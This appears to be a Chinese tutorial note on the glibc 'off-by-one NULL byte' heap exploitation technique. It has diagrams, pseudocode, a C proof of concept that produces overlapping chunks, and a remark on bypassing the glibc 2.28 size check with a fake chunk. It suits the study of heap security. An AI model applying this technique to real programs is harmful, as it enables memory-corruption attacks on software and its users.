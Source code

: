           _____________________                          ______|_____B_______|______
         |      |      |       |                        |      |    |    |   |     |
         |  A   |   B  |   C   |                        |  A   | B1 | B2 |   | C   |
         |______|______|_______|                        |______|____|____|___|_____|
    图1  overwrite freed or allocated                      图2  overwrite null byte
off-by-one overwrite NULL byte : 

    这类漏洞在实际中很常见，如使用strcpy()进行复制时未考虑字符串长度。如图2所示，堆块A、B、C，其中堆块A已分配且含有off-by-one漏洞，堆块B、C已分配，堆块B2为目标堆块，需要对堆块B2可读写。利用方法：先释放掉堆块B，然后通过堆块A的off-by-one漏洞覆盖堆块B size字段的最低字节为NULL，减小堆块B的size字段值 （如果堆块B size字段未改变，再次分配时，堆块C的prev_size字段会改变，造成漏洞无法利用） ；再申请两个较小的堆块B1和B2(B1+B2<B)，这时堆块C的prev_size大小仍然是堆块B的大小，释放掉堆块B1和堆块C时就会导致堆块B和堆块C进行合并，然后再malloc(B+C)大小的堆块就可以得到原来堆块B的地址，从而可以对堆块B2进行读写。
    A=malloc(0x108)
    B=malloc(0x108)
    C=malloc(0x108)
    free(B)
    A+0x109(B.size last byte)=0x00  #减小B堆块SIZE，从0x110->0x100
    B1=malloc(0x58)
    B2=malloc(0x28)
    free(B1)
    free(C)
    D=malloc(0x220) #malloc(B+C), D的数据段包含了B2 chunk，可用进一步泄露libc、堆地址？修改chunk fd或者bk
    
    #include <stdio.h>
    #include <string.h>
    #include <malloc.h>
    
    int main(int argc, char* argv[])
    {
        void *A,*B,*C;
        void *B1,*B2;
        void *Overlapping;
        A = malloc(0x100-8);
        B = malloc(0x200);
        C = malloc(0x100);
        printf("chunk B address: %x,  C address: %x\n", B, C);
    
        free(B);
        ((char *)A)[0x100 - 8] = '\x00';    // off-by-one NULL byte
    
        B1=malloc(0x100);
        B2=malloc(0x80);
        printf("chunk B1 address: %x,  B2 address: %x\n", B1, B2);
        free(B1);
        free(C);
        Overlapping = malloc(0x300);  
        printf("new malloced chunk: %x\n", Overlapping);
        return 0;
    }
    
    2.28检查
    /* consolidate backward */
        if (!prev_inuse(p)) {
          prevsize = prev_size (p);
          size += prevsize;
          p = chunk_at_offset(p, -((long) prevsize));
          /* 后两行代码在最新版本中加入，off-by-one overwrite NULL byte方法无法使用，但是 2.28 及之前都没有问题，off-by-one overwrite NULL byte利用方法无法修改pre chunk的size，但是构造fake chunk unlink通过构造假SIZE可以绕过这个检查的，所以可以继续使用 */
          if (__glibc_unlikely (chunksize(p) != prevsize))
            malloc_printerr ("corrupted size vs. prev_size while consolidating");
          unlink_chunk (av, p);
        }
